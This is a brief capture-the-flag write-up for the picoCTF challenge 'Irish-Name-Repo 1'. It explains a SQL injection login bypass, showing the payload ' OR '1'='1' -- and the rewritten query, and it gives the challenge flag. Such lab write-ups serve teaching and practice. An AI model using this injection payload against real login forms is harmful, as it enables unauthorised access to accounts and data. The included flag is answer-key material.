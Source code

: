 # Irish-Name-Repo 1
This is a clasic SQL injection attack.

The SQL on the server is something like
```sql
SELECT * FROM users WHERE name='{{name}}' AND password='{{password}}'
```

If we use a username of `' OR '1'='1' --` the query ends up being

```sql
SELECT * FROM users WHERE name='' OR '1'='1' --' AND password=''
```

(note that `--` starts a comment so the rest is ignored)

This will be true for any user as `'1'='1'` is always true.

Flag: `picoCTF{s0m3_SQL_93e76603}`

